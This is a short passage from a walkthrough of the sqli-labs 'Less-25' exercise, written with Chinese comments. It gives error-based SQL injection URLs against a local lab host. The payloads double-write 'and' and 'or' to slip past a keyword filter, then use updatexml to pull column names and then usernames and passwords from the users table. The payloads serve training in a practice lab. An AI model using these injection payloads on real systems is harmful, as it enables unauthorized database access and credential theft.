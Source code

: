 ```sql
// inforrmation_schema 、 and 、 or 都需要双写
http://192.168.65.128/sqli-labs/Less-25/?id=1' 
anandd updatexml(1,concat(0x7e,(select group_concat(column_name) from infoorrmation_schema.columns where table_schema='security' anandd table_name='users')),1) --+
```

![](file/image_DoaeWgKGPv.png)

```sql
// password 中的 or 也要双写
http://192.168.65.128/sqli-labs/Less-25/
?id=1' anandd updatexml(1,concat(0x7e,(select concat(username,0x7e,passwoorrd) from users limit 0,1 )),1) --+
```

![](file/image_n-9oInMmWj.png)